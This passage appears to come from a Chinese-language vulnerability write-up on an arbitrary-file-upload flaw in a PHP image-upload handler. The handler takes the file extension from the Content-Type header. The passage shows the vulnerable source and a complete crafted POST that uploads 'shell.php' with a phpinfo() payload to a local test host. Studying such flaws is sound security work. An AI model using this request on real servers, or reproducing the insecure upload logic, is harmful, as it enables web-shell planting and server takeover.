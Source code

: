 并且在替换后有一个拼接操作，进行源码分析

```plain
$imgURL=($_FILES['imgFile']['tmp_name']);
//进行替换操作
$type = str_replace('image/', '.', $_FILES['imgFile']['type']);
//将替换后的内容进行拼接，这里导致了我们后缀可控
$imgURL_name=time().mt_rand(1,1000).$type;
//移动操作
move_uploaded_file($imgURL,$uploadImg.$imgURL_name);
$image = $uploadImg . $imgURL_name;
echo json_encode(array("error"=>$error,"url"=>$image,'message'=>$msg));
```

如果我们将 Content-Type: application/octet-stream 修改为 Content-Type: image/php 那么拼接时会变成.php 的后缀。

[![](assets/1710900899-58049edeff8ebc43bb10f30658bd2026.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301141335-d6137b86-d792-1.png)

构造恶意请求包

```plain
POST /index.php?module=system&action=uploadImg HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------3521672959703348041050404464
Content-Length: 238
Origin: http://127.0.0.1:8080
Connection: close
Cookie: admin_mojavi=idaa1su8mvj9leoubg27osau0r
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

-----------------------------3521672959703348041050404464
Content-Disposition: form-data; name="imgFile"; filename="shell.php"
Content-Type: image/php

<?php phpinfo(); ?>
```
